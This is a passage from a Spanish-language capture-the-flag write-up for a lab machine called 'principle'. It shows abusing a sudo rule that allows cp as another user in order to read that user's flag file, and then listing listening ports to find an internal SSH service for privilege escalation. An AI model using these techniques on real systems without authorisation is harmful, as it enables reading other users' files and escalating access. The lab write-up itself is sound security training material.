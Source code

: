 Por tanto, como tenemos permisos de *cp* como elohim, vamos a copiarnos la flag de su directorio de trabajo al nuestro.

Hay que tener en cuenta que no tenemos permisos sobre ese fichero, de forma que no podemos "copiarlo" como tal ya que nos dará error. Sin embargo, si existe una triquiñuela que es generar el nombre del fichero primeramente para que entonces el sistema le haga un "append" del contenido que queremos copiar:

> También se puede copiar directamente al /dev/stdout para leer directamente los ficheros en consola.

~~~bash
talos@principle:~$ touch flag.txt
talos@principle:~$ sudo -u elohim cp /home/gehenna/flag.txt .
talos@principle:~$ cat flag.txt 
                           _
                          _)\.-.
         .-.__,___,_.-=-. )\`  a`\_
     .-.__\__,__,__.-=-. `/  \     `\
     {~,-~-,-~.-~,-,;;;;\ |   '--;`)/
      \-,~_-~_-,~-,(_(_(;\/   ,;/
       ",-.~_,-~,-~,)_)_)'.  ;;(
         `~-,_-~,-~(_(_(_(_\  `;\
   ,          `"~~--,)_)_)_)\_   \
   |\              (_(_/_(_,   \  ;
   \ '-.       _.--'  /_/_/_)   | |
    '--.\    .'          /_/    | |
        ))  /       \      |   /.'
       //  /,        | __.'|  ||
      //   ||        /`    (  ||
     ||    ||      .'       \ \\
     ||    ||    .'_         \ \\
      \\   //   / _ `\        \ \\__
       \'-'/(   _  `\,;        \ '--:,
        `"`  `"` `-,,;         `"`",,;


CONGRATULATIONS, you have defeated me!

The flag is:
K|*************jN
~~~

Tenemos la flag de user, y llegamos al punto más complicado de la máquina, tenemos permisos de *cp* como elohim pero no sabemos qué hacer más aparte de copiar la flag que ya hemos hecho. No vemos otros vectores de escalada de privilegios... ¿o sí?


## Escalada de privilegios

Si recordamos había un directorio .ssh en el directorio de trabajo de elohim, sin embargo, solo tenemos el puerto 80 accesible desde fuera... Indaguemos esto bien:

~~~bash
talos@principle:~$ ss -tunel
Netid       State        Recv-Q        Send-Q               Local Address:Port               Peer Address:Port       Process                                                             
udp         UNCONN       0             0                          0.0.0.0:68                      0.0.0.0:*           ino:14135 sk:1 cgroup:/system.slice/ifup@enp0s3.service 
tcp         LISTEN       0             128                        0.0.0.0:3445                    0.0.0.0:*           ino:14526 sk:2 cgroup:/system.slice/ssh.service          
tcp         LISTEN       0             511                        0.0.0.0:80                      0.0.0.0:*           ino:14468 sk:3 cgroup:/system.slice/nginx.service        
tcp         LISTEN       0             128                           [::]:3445                       [::]:*           ino:14528 sk:5 cgroup:/system.slice/ssh.service  
tcp         LISTEN       0             511                           [::]:80                         [::]:*           ino:14469 sk:6 cgroup:/system.slice/nginx.service  
~~~